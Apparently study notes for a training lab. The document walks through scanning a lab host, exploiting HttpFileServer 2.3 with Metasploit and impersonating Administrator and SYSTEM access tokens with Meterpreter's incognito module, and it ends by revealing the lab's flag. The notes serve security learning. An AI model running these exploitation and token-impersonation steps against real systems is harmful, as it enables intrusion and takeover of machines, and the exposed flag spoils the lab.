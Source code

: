 # 🔬Access Token

## Lab 1

>  🔬 [Privilege Escalation: Impersonate](https://attackdefense.com/challengedetails?cid=2353)
>
>  - Target IP: `10.4.22.75`
>  - **Access Token impersonation** 

### Enumeration

```bash
nmap 10.4.22.75
```

```bash
PORT      STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```

- Determine the version information of the web server on port `80`

```bash
nmap -sV -p 80 10.4.22.75
```

```bash
80/tcp open  http    HttpFileServer httpd 2.3
```

- Without using `nmap`, the `http` server version can be checked in a browser by opening the link
  - `http://10.4.22.75/`

### Exploitation

```bash
searchsploit hfs
msfconsole -q
```

- Set the target IP as **GLOBAL RHOSTS variable**

```bash
setg RHOSTS 10.4.22.75
```

```bash
search rejetto
use exploit/windows/http/rejetto_hfs_exec
options
exploit
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Meterpreter     : x86/windows
```

- Migrate current x86 `meterpreter` session to a x64 process

```bash
pgrep explorer
migrate 3640
    [*] Migrating from 1692 to 3640...
    [-] core_migrate: Operation failed: Access is denied.

getuid
	Server username: NT AUTHORITY\LOCAL SERVICE
# LOCAL SERVICE account is by default unprivileged

getprivs
    SeAssignPrimaryTokenPrivilege
    SeAuditPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeImpersonatePrivilege
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeSystemtimePrivilege
    SeTimeZonePrivilege
```

- This `meterpreter` session (with this particular user account) can be utilized to impersonate other access tokens available.

### Privilege Escalation

#### Access Token Impersonation

```bash
load incognito
# if the session dies, run the exploit again
```

```bash
list_tokens -u

    Delegation Tokens Available # Interactive Logon
    ========================================
    ATTACKDEFENSE\Administrator
    NT AUTHORITY\LOCAL SERVICE

    Impersonation Tokens Available # Non-Interactive Logon
    ========================================
    No tokens available
```

![incognito Meterpreter module](assets/image-20230317130902280.png)

- `ATTACKDEFENSE\Administrator` account access token would provide elevated privileges

```bash
impersonate_token "ATTACKDEFENSE\Administrator"

getuid
	Server username: ATTACKDEFENSE\Administrator
getprivs
	[-] stdapi_sys_config_getprivs: Operation failed: Access is denied.
pgrep explorer
migrate 3640

getprivs
```

![Access Token Impersonation](assets/image-20230317131313929.png)

- Listing tokens with this account, there can be additional available tokens

```bash
list_tokens -u

    Delegation Tokens Available
    ========================================
    ATTACKDEFENSE\Administrator
    NT AUTHORITY\LOCAL SERVICE
    NT AUTHORITY\SYSTEM
    Window Manager\DWM-1

    Impersonation Tokens Available
    ========================================
    Font Driver Host\UMFD-0
    Font Driver Host\UMFD-1
    NT AUTHORITY\NETWORK SERVICE
```

- `NT AUTHORITY\SYSTEM` can be impersonated, getting the privileges associated with its access token

```bash
impersonate_token "NT AUTHORITY\SYSTEM"
```

- In the case of no Delegation or Impersonation tokens found, the `Potato Attack` can be used to get or generate a `NT AUTHORITY/SYSTEM` access token, impersonating it and obtain privileges associated to it.
- Get the flag of the lab:

```
cd C:\\Users\\Administrator\\Desktop\\
```



<details>
<summary>Reveal Flag: 🚩</summary>



`x28c832a39730b7d46d6c38f1ea18e12`

![](assets/image-20230317132422697.png)

</details>

------

